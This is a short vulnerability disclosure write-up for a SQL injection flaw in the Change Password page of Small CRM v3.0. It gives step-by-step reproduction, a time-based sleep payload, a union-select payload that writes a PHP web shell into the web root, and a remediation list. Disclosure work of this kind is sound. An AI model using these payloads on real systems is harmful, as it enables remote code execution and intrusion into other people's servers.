


# CVE-2024-xxxx
# Vulnerability Description

The Change Password page on Small CRM v3.0 is vulnerable to SQL injection which is enabling authorized remote code execution (RCE). This vulnerability stems from insufficient input validation in the password change field, compounded by the lack of parameterized queries and authentication.

## Step by Step POC

1. login to the application Small CRM v3.0
2. click on change password which is on the left side
   
4. now give some random input and capture the request
6. Send it repeater and drop the original request 
7. change the old password field with the sql payload that is:  '+or+sleep(2)#
   
look at the output after a few seconds as the response got delayed we can conform the SQL injection
9. Now we change the input of the same field which is old password and will give this as input to the request:
  ### Payload for SQLI
```sql
'+AND+1337=1337+union+all+select+"<?php+echo+shell_exec($_GET['cmd']);?>"INTO+OUTFILE+'C:\\xampp\\htdocs\\webshell.php'#
```
 
Now we can see the response because our query got executed.  
7.now Visit this URL associated with the generated file.
  
  
## Impact

Unauthorized access to the system leads to information leak and Reputation damage as the system got compromised.

## Remediation

Implement thorough input validation and use parameterized queries.
Follow the least privilege principle for database user permissions.
Deploy a WAF to monitor and block SQL injection attempts.
Keep software updated with security patches.
Provide security training for personnel.
Conduct regular security audits and penetration testing.
Configure servers securely.
Implement continuous monitoring for suspicious activities.


## Screenshots (Placeholders)

